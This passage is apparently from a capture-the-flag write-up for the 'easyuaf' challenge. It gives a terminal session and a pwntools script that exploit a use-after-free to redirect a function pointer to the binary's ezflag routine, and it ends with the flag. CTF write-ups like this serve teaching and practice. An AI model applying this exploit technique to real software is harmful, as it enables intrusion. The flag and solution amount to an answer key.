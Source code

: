 Does that work?
```sh
$ objdump -D easyuaf | grep ezflag
0000000000401276 <ezflag>:
$ python -c 'print 0x401276'
4199030
$ ./easyuaf
NameCard Printing Service v0.1
---------------------
1. New person
2. New org
3. Delete org
4. Print name card
5. Exit
---------------------
> 2
ID (0-127): 0
Name (max 23 chars): org
Style (1-3): 1
> 3
ID (0-127): 0
Deleted org 0.
> 1
ID (0-127): 0
Name (max 23 chars): person
Age: 0
Personal Contact Number: 4199030
Business Contact Number: 0
> 4
Org ID (0-127): 0
Person ID (0-127): 0
cat: ./flag.txt: No such file or directory
>
```
Yep. Who could've guessed?

## Short solve script
```python
from pwn import *
from typing import Union
context.binary = './easyuaf'
r = remote('challs.nusgreyhats.org', 10525)

def cmd(opt: int, *args: Union[int,bytes]):
    r.sendlineafter('> ', str(opt))
    for arg in args:
        if isinstance(arg, int): arg = b'%d' % arg
        r.sendlineafter(': ', arg)

cmd(2,0, b'org', 1)
cmd(3,0)
cmd(1,0, b'person', 0, context.binary.symbols['ezflag'], 0)
cmd(4,0,0)
print(r.recvuntil(b'}'))
```

## flag
`grey{u_are_feeling_good?}`

